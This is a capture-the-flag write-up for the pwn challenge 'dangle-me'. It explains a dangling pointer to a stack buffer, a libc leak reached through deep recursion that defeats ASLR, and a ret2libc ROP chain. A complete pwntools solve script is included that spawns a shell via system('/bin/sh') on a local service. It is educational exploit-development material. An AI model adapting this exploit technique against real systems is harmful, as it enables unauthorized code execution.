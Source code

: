 # Write-up: dangle-me

## Category: pwn

## Author brzeks

Mostly a typical ret2libc. `main` calls a function that returns a pointer to its local stack buffer and the rest of the program operates on that buffer. At first the buffer is located high enough above the stack frame to not cause any bugs, however by using the second menu option "I want to ascend" we can recursively call the `menu` function, which means we can push an arbitrary amount of new stack frames and get the stack pointer close to the vulnerable buffer. At some point the buffer starts getting overwritten by library functions which enables us to leak a libc address, thus defeating ASLR. By carefully positioning the stack pointer we can use the buffer to overwrite a return address from a libc function and execute a ROP chain, thus solving the challenge.

solve script:

```py
from pwn import *
import re

context.arch = 'amd64'

libc = ELF("./libc.so.6")

r = remote('localhost', 30000)

for _ in range(346 + 20):
    r.sendlineafter(b'> ', b'2')

r.sendlineafter(b'> ', b'1')
libc_leak = packing.u64(re.search(rb"fals(.*?), dear", r.recvline_endswith(b'dear'), re.DOTALL)[1].ljust(8, b'\0'))
log.info(f"libc leak: {hex(libc_leak)}")

libc.address = libc_leak - libc.symbols['_IO_2_1_stdin_']
log.info(hex(libc.address))

for _ in range(89 - 20):
    r.sendlineafter(b'> ', b'2')

rop = ROP(libc)
rop.raw(rop.ret)
rop.call("system", [next(libc.search(b"/bin/sh\0"))])

r.sendline(b'4')
r.sendline(b'A' * 8 + rop.chain())

r.interactive()
```